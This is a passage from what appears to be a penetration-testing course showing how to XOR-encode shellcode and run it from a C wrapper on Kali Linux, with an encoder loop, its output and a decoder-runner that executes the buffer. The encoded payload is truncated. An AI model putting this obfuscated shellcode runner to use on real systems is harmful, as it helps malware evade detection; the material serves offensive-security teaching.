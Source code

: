 ```
for (int i=0; i<payload_length; i++)
	{
		printf("\x%02X",buf[i]^xor_key);
	}
```

> Listing 38 - Second part of our encoder's main loop

We can use gcc to compile our encoder. Once we've done that, we can run it to output the encoded version of our shellcode.

```
kali@kali:~$ gcc -o encoder.out encoder.c

kali@kali:~$ ./encoder.out 
x20x73x12x45x4Fx02xCFx8Ax3Ex42x02x7BxB5x20x76x12x45...x20x4Bx14x45x4Fx02xCFx8Ax32x71x02xDDx02xF3x48
```

> Listing 39 - Output of our XOR encoder

We can copy the output string from our encoder and replace the payload string in our original C wrapper. In addition, we need to modify our original C wrapper's _main_ function to decode the shellcode before we try to run it. The updated program is shown in the Listing 40.

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// Our obfuscated shellcode
unsigned char buf[] = "x20x73x12x45x4Fx02xCFx8A...x32x71x02xDDx02xF3x48";

int main (int argc, char **argv) 
{
	char xor_key = 'J';
	int arraysize = (int) sizeof(buf);
	for (int i=0; i<arraysize-1; i++)
	{
		buf[i] = buf[i]^xor_key;
	}
	int (*ret)() = (int(*)())buf;
	ret();
}
```

> Listing 40 - Updated C wrapper program with our encoded shellcode

Our newly-modified C wrapper program behaves as a combination of our original C wrapper and our encoder program. We define our payload buffer, which is now obfuscated, as the result of our encoder program's output. We define our XOR key and get the size of the payload, stored in the _arraysize_ variable. We then iterate through the payload string as we did in the encoder, performing an XOR operation on each character as we did before.

Since our payload is already obfuscated and XOR is a symmetric cipher, performing XOR on it with the same key will deobfuscate each character, resulting in our original payload string. We then run our shell as we did in our original C wrapper.
